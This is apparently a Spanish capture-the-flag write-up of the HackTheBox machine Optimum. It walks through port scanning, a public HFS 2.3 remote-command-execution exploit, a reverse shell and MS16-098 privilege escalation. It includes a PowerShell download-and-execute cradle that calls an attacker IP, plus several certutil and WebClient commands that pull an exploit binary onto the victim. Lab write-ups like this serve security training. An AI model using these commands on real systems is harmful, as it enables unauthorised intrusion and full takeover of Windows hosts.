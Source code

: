 ```yaml
---
layout: single
title: HackTheBox - Máquina Optimum
excerpt: "Solución de la máquina Optimum de Hack the Box."
date: 2021-05-03
classes: wide
header:
  teaser: /assets/images/htb/optimum/optimum.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Windows
  - Easy
---
```


<p align="center">
<img src="/assets/images/htb/optimum/optimum.png">
</p>

# Enumeración

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.8 -oG allPorts
```

```bash
nmap -sC -sV -p80 10.10.10.8 -oN targeted
```

En el escaneo más especifico solo vemos un puerto abierto:

```text
80/tcp open  http    HttpFileServer httpd 2.3
```

*Whatweb:*
```bash
whatweb http://10.10.10.8

http://10.10.10.8 [200 OK] Cookies[HFS_SID], Country[RESERVED][ZZ], HTTPServer[HFS 2.3], HttpFileServer, IP[10.10.10.8], JQuery[1.4.4], Script[text/javascript], Title[HFS /]
```

# Explotación

Vamos a buscar alguna vulnerabilidad en searchsploit del HttpFileServer 2.3.

```bash
searchsploit HFS 2.3
```

```text
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
 Exploit Title                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                    | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                    | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                 | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                            | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                            | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                       | windows/webapps/34852.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------- 

```

Por lo que vamos a usar el script `39161.py`, estando en el directorio `exploits` lo copiamos mediante `searchsploit -m 39161`. 

Para ello en el script nos dice que tenemos que tener compartido el ejecutable de netcat, por ello hacemos un `locate nc.exe` y copiamos `/usr/share/windows-resources/binaries/nc.exe` a nuestro directorio `content`. Levantamos un servidor `python3 -m http.server 80` (Necesitamos permisos de root)

Editamos el script para añadir nuestra ip y nuestro puerto local, ejecutamos la primera vez el exploit `python2.7 39161.py 10.10.10.8 80` para hacer uso del netcat y la segunda vez nos creara la reverse shell, para ellos previamente nos ponemos a la escucha en el puerto que hayamos puesto en el script y finalmente ya estamos dentro de la máquina con el usuario `optimum\kostas`.

# Escalada de Privilegios

Una vez que estamos dentro de la máquina nos vamos a pasar a una powershell para ello vamos a usar [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), editamos el script para añadir al final la siguiente línea:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.XX.XX -Port 4444
```

Nos ponemos en escucha por el puerto 4444 y desde la máquina víctima ejecutamos:

```bash
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17:8000/IP.ps1')
```

Con lo que obtenemos una powershell, para saber si estamos en una máquina de x64 bits y el proceso corresponde a la arquitectura lanzamos:

```bash
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```

Y el resultado será:

```bash
[environment]::Is64BitOperatingSystem
True
[environment]::Is64BitProcess
True
PS C:\Users\kostas\Desktop> 
```

Para la escalada de privilegios usamos [Windows Exploit Suggester](https://github.com/bitsadmin/wesng) para utilizarlo necesitamos obtener la información del sistema mediante `systeminfo`, lo copiamos y lo guardamos en el directorio content.

Para obtener los máximos privilegios vamos a utilizar [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe), nos los descargamos en la máquina local y lo compartimos mediante un servidor en python.

Para descargarlo en la máquina víctima usamos alguna de estas formas:

```bash
certutil.exe -f -urlcache -split http://10.10.XX.XX:8000/bfill.exe bfill.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.XX.XX:8000/bfill.exe', 'C:\Users\kostas\Desktop\bfill.exe')"

powershell Invoke-WebRequest "http://10.10.XX.X:8000/bfill.exe" -OutFile "C:\Users\kostas\Desktop\bfill.exe"
```

Al ejecutarlo tenemos permisos de `NT AUTHORITY\SYSTEM` y ya se puede ver la flag de root.